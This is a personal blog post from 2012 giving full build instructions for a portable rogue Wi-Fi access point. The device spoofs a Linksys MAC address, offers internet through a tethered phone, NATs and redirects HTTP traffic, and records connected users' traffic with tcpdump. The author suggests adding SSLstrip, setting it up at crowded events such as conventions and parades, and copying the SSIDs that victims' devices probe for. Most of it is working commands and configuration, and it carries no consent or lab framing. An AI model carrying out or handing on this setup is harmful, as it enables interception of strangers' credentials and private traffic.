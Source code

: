 ```yaml
---
layout: splash
title: "Mobile Hacking"
date: 2012-05-16 00:00:00 -0700
categories: Blog Misc
permalink: /:title.html
---
```

I have always loved wireless security.  It is just such an easy target.  The only issue that I have had is that I was restricted to carrying around a laptop and I just didn’t like the idea of having to operate the software while I was out.  So I came up with this neat little COMPLETELY mobile wireless hacking/trap solution.  Here is what you will need.

## Equipment

1. an Alix board, CF, and enclosure
2. two ALPHA USB Wireless cards
3. a cell phone that you can tether to
4. mobile power solution

## NOTES

I have written this very quickly and this may not be entirely accurate.  Although the tests that I have done did work this post has been put together using loose notes that I made through my testing.  I may (one day) return to this and tidy it up and add more detail, however I set out to do what I wanted and I wish to move on to newer projects.

## Instructions
1.     To start build your Alix system.  I built mine with Debian and I found a GREAT tutorial on how to get it loaded on a CF for your Alix board here -> http://www.youtube.com/watch?v=6VPsgR4pMik  Install the most basic packages to to run the system, we will add the other stuff later.
2.     Once you have Debian installed on the CF and the board put together go ahead and start  it up.  Connect to the Alix board with a serial connection using 38400 baud, or 9600 if you didn’t change it in the last step.
3.     Log in to Debian using root and your password
4.     rm -f /etc/udev/rules.d/*_persistent-net.rules
5.     rm -f /etc/udev/rules.d/*_persistent-net-generator.rules
6.     reboot and connect the two USB WLAN cards
7.     Once the system is back up and running log in again with root
8.     install the following packages using the next command
9.     apt-get install wpasupplicant bridge-utils wireless-tools tcpdump ssh
10.    change the file /etc/network/interfaces to look like this (obviously use your wlan interfaces)
```
# Used by ifup(8) and ifdown(8). See the interfaces(5) manpage or
# /usr/share/doc/ifupdown/examples for more information.
auto lo
iface lo inet loopback
allow-hotplug eth0
iface eth0 inet dhcp
iface wlan1 inet dhcp
wpa-ssid "iPhone"
wpa-mode managed
wpa-conf /root/Rogue-Sniff/conf/iphone.conf
wpa-psk nodule5958
```
11.    Now we will need to install a bunch more stuff to get the necessary tools running
12.    apt-get install apt-get install build-essential libssl-dev subversion check install iw
13.    svn co http://trac.aircrack-ng.org/svn/trunk aircrack-ng
14.    Make, check install, and then run airodump-ng-oui-update
15.    Time to get the FakeAP up and running
16.    apt-get install dhcp3-server
17.    update-rc.d sic-dhcp-server remove
18.    cp /etc/dhcp/dhcpd.conf /etc/dhcp/dhcpd.conf.bak
19.    vi /etc/dhcp/dhcpd.conf and make it similar to this
```
ddns-update-style ad-hoc;
default-lease-time 600;
max-lease-time 7200;
subnet 10.1.2.0 netmask 255.255.255.0 {
option subnet-mask 255.255.255.0;
option broadcast-address 10.1.2.255;
option routers 10.1.2.1;
option domain-name-servers 8.8.8.8;
range 10.1.2.100 10.1.2.150;
}
```
20.    airmon-ng start wlan0
21.    airbase-ng -e “ESSID” -c 9 mon0
22.    ifconfig at0 up
23.    ifconfig at0 10.1.2.1 netmask 255.255.255.0
24.    route add -net 10.1.2.0 netmask 255.255.255.0 gw 10.1.2.1
25.    dhcpd -cf /etc/dhcpd/dhcpd.conf -pf /var/run/dhcpd.pid at0
26.    Now you have an AP up and running for the sniffing but you know no one will use it unless you have it providing internet access
27.    Connect the Debian box to your cell phone (tethering) so that you can provide internet access to others on the go
28.    Create the file iPhone.conf and put the WPA/WPA2 settings in to tether to your phone
```
network={
ssid="iPhone"
key_mgmt=WPA-PSK
psk=(put your hex in here -> wpa_passphrase [SSID] [passphrase])
}
```
29.    Test out the connection by running the following
30.    wpa_supplicant -i wlan1 -B -c iphone.conf
31.    Get IP Tables running by creating the following script
```
#!/bin/sh
PATH=/usr/sbin:/sbin:/bin:/usr/bin
#
# delete all existing rules.
#
iptables -F
iptables -t nat -F
iptables -t mangle -F
iptables -X
# Always accept loopback traffic
iptables -A INPUT -i lo -j ACCEPT
# Allow established connections, and those not coming from the outside
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
iptables -A INPUT -m state --state NEW -j ACCEPT
iptables -A FORWARD -i wlan1 -o at0 -m state --state ESTABLISHED,RELATED -j ACCEPT
# Allow outgoing connections from the LAN side.
iptables -A FORWARD -i at0 -o wlan1 -j ACCEPT
iptables -t nat -A PREROUTING -p tcp -i at0 --destination-port 80 -j REDIRECT --to-port 8080
# Masquerade.
iptables -t nat -A POSTROUTING -o wlan1 -j MASQUERADE
# Don't forward from the outside to the inside.
iptables -A FORWARD -i wlan1 -o wlan1 -j REJECT
# Enable routing.
echo 1 > /proc/sys/net/ipv4/ip_forward
```
32.    If that is all working for you create a bash script with the following (with values that will work for your network)
```
#! /bin/bash
# bring up the rogue and start sniffing
cd /
# change the mac to a Linksys AP
/usr/bin/macchanger --mac=00:06:25:3E:BD:93 wlan0
/usr/bin/macchanger -r wlan1
echo "connecting to phone"
/sbin/wpa_supplicant -i wlan1 -B -c /root/iphone.conf
sleep 45
echo "getting ip address"
/sbin/dhclient wlan1
/usr/local/sbin/airbase-ng --essid hotspot -c 11 wlan0 &
sleep 15
/sbin/ifconfig at0 10.1.1.2 netmask 255.255.255.0
/sbin/route add -net 10.1.1.0 netmask 255.255.255.0 gw 10.1.1.2
/sbin/ifconfig at0 up
sleep 5
/usr/sbin/dhcpd -cf /etc/dhcp/dhcpd.conf
./root/Rogue-Sniff/iptables.sh
tcpdump -i wlan1 -s 0 -e -vv -XX link[25] != 0x80 -w /root/Rogue-Sniff/capture
```
33.    Add a line to execute this script at startup with rc.local
34.    Now that your CF card is at a point where you want it pull it off the Alix board and DD it to another Linux box so that you will never have to go through all this again.
35.    Connect your portable power source and out the door you go!  I used two 9V batteries that do power the setup, but I highly doubt that it would last long.

## Going Further

1.     When acting as an AP for people the main point here is to sniff traffic and record it.  What point would it be to record encrypted traffic?  Go a little further with this and throw SSL Strip into the mix!
2.     Very Useful Applications (if you have room on the CF)
  * python
  * python-twisted-web
  * kismet
  * nmap
  * telnet
  * fping
  * smbclient
  * curl
  * links
  * dnsutils
  * Tenable Nessus
  * Metasploit Framework
3.     The best places to take advantage of wireless networks is in highly populated areas that do not have hotspots.  Think of a convention or parade.  Some people really what to get on the net, and you could even highjack their broadcasts … say they are probing for “linksys” why not rename your SSID?

## Images of My Project
![alt text](/assets/images/mobile/1.png "1")

![alt text](/assets/images/mobile/2.png "2")

![alt text](/assets/images/mobile/3.png "3")

![alt text](/assets/images/mobile/4.png "4")